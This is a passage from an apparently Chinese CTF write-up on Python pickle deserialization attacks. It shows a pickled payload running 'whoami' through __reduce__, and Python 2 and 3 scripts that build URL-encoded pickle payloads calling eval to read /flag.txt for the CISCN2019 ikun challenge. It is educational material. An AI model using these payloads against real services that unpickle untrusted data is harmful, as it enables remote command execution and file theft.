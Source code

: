```python
# b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
# laptop-sad7r74j\86139
# 可以看到在执行`pickle.loads`成功调用了`__reduce__`魔术方法,并执行了系统命令

```



**这里注意一个坑, py3和py2 使用`pickle.dumps`得到的字符串是不一样的**, 这道题[[CISCN2019 华北赛区 Day1 Web2]ikun](4f3ccb8a.html)卡了很久: 

py3中:`urllib.parse.quote`

py2中:`urllib.quote`

`python3`:

```python
import pickle
import urllib.parse
class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))
a = pickle.dumps(payload())
print(a)
a = urllib.parse.quote(a)
print(a)
输出:
    #b"\x80\x04\x958\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x04eval\x94\x93\x94\x8c\x1copen('/flag.txt','r').read()\x94\x85\x94R\x94."
#%80%04%958%00%00%00%00%00%00%00%8C%08builtins%94%8C%04eval%94%93%94%8C%1Copen%28%27/flag.txt%27%2C%27r%27%29.read%28%29%94%85%94R%94.
```

`python2`:

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
print a
a = urllib.quote(a)
print a

"""
输出:
c__builtin__
eval
p0
(S"open('/flag.txt','r').read()"
p1
tp2
Rp3
.

c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.

"""

```
